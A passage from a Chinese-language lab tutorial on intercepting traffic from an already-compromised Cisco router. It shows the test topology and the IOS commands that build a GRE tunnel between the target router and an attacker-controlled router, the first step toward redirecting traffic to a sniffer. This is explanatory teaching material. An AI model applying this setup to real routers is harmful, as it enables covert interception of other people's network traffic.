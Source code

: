 图2 – 场景2

0x03 步骤
=======

* * *

图3显示了在本次试验的网络拓扑。

![](http://drops.javaweb.org/uploads/images/6d76f503db4312d0756ece3b9acf673e92922a0d.jpg)

图3 - 实验测试拓扑

1.  **实验设备**
    
    目标路由器（target router）使用双以太网接口的Cisco 3600路由器，中间路由器（attacker router）使用双以太网接口的Cisco 2600路由器。这个实验同样适用于任何IOS系统的思科路由器，可能适用于其他支持GRE隧道和策略路由的路由器。
    
    邮件服务器是一台装有Linux的笔记本，网络嗅探设备是一台Solaris工作站，这些设备都是任意选择的。
    
2.  **建立一条GRE隧道**
    
    第一步，在对路由器进行基础的IP配置之后，就在目标路由器和中间路由器间建起GRE隧道，在实际环境使用这种方法时，目标路由器应必须首先已被入侵并可以远程配置，入侵目标路由器的方法以已经超出了本文的讨论范围。
    
    目标路由器配置：
    
    ```
    Target#conf t
    Target(config)#int tunnel0
    Target(config-if)#ip address 192.168.5.1 255.255.255.0
    Target(config-if)#tunnel source eth0/1
    Target(config-if)#tunnel dest 192.168.1.2
    Target(config-if)#tunnel mode gre ip
    Target(config-if)#exit
    Target(config)#exit
    Target#
    
    ```
    
    建立名称为tunnel0的隧道接口，分配本地IP地址192.168.5.1（虚拟的IP地址），外部以太网接口定义为本地tunnel隧道的终点，同时定义中间路由器的外部IP地址为tunnel隧道对端的终点。在中间路由器上配置类似的命令。
    
    中间路由器操作：
    
    ```
    Attacker#conf t
    Attacker(config)#int tunnel0
    Attacker(config-if)#ip address 192.168.5.2 255.255.255.0
    Attacker(config-if)#tunnel source eth0/1
    Attacker(config-if)#tunnel dest 192.168.1.1
    Attacker(config-if)#tunnel mode gre ip
    Attacker(config-if)#exit
    Attacker(config)#exit
    Attacker#
    
    ```
    
    到这一步，两台路由器间的GRE隧道已经建立了，不管这两台路由器间在互联网间相隔多少跳路由，GRE隧道都只认为经过了一跳路由。
    